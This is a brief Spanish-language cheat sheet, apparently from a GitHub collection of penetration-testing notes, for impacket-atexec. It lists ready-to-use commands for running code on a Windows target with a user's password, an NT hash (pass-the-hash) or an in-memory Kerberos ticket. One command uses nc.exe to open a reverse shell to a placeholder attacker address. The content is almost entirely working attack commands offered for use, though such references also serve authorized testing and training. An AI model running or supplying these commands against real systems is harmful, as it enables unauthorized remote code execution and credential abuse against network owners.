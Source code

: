 # Atexec Cheat Sheet

#### Enviar un comando para Reverse Shell usando credenciales de un usuario
```
impacket-atexec <DOMAIN>/<USER>:<PASSWORD>@<IP-TARGET> 'powershell -c "nc.exe <IP-ATTACKER> <PORT-ATTACKER> -e cmd.exe"'
```

#### Enviar un comando usando NT hash de un usuario
```
impacket-atexec -hashes :<NT-HASH> <DOMAIN>/<USER>@<IP-TARGET> 'whoami'
```

#### Enviar un comando usando un ticket Kerberos en memoria
```
impacket-atexec -no-pass -k <DOMAIN>/<USER>@<IP-TARGET> 'whoami'
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)